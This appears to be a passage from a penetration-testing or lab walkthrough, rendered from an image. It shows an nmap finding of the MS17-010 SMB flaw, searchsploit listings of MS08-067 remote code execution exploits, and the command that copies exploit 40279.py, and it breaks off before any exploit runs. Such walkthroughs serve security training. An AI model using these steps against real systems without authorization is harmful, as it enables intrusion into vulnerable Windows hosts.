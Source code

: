 |       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                                              
|        servers (ms17-010).                   
|                                              
|     Disclosure date: 2017-03-14                                                              
|     References:                              
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx                                                                                                                    
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143                                                                                                                          
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/     
`

The first vulnerability for an RCE is MS08-067 related.  Let's start there:

`
# searchsploit ms08-067
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)                                                                                       | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)                                                                                                        | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                                                                                                  | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) (Metasploit)                                                                   | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)                                                                                              | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)                                                                                              | windows/remote/7132.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
`

## Exploitation

Multiple RCE's available.  Let's try the first Python one, windows/remote/40279.py

`
# searchsploit -m 40279
  Exploit: Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)
      URL: https://www.exploit-db.com/exploits/40279
     Path: /usr/share/exploitdb/exploits/windows/remote/40279.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators
